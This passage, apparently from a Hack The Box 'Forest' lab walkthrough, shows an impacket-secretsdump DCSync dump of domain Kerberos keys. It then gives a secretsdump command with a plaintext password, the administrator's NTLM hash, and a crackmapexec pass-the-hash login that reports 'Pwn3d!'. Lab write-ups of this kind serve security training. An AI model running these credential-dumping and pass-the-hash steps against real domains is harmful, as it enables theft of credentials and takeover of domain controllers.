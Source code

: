 ```
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
hacker:aes256-cts-hmac-sha1-96:a23090c9dea33521db0ed93b15cd578729afa043eb5bda6d0fc931d79104db00
hacker:aes128-cts-hmac-sha1-96:3821176a7388624351aa759b74f74664
hacker:des-cbc-md5:fd73671fd98f370d
FOREST$:aes256-cts-hmac-sha1-96:ecd6721b2742e495b7e95f459a8bd9b38e3ae4f8fc011724e4859bbb479186cd
FOREST$:aes128-cts-hmac-sha1-96:f2a4ff307af5df990a59de19aed942bf
FOREST$:des-cbc-md5:9862aeeaa2f20785
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

* We now have granted DCSync to our new user, 'hacker' in which we can now mimic the Domain Controller and dump all of the domain hashes!
* One thing that you can to to ensure that you do not lose the hashes it to place the output in a file:

```
impacket-secretsdump htb.local/hacker:Pwned123@10.129.95.210 > hashes
```

Grab the local administrator's hash

```
32693b11e6aa90eb43d32c72a07ceea6
```

CrackMapExec

```
crackmapexec smb 10.129.95.210 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

* We see that we have valid creds!
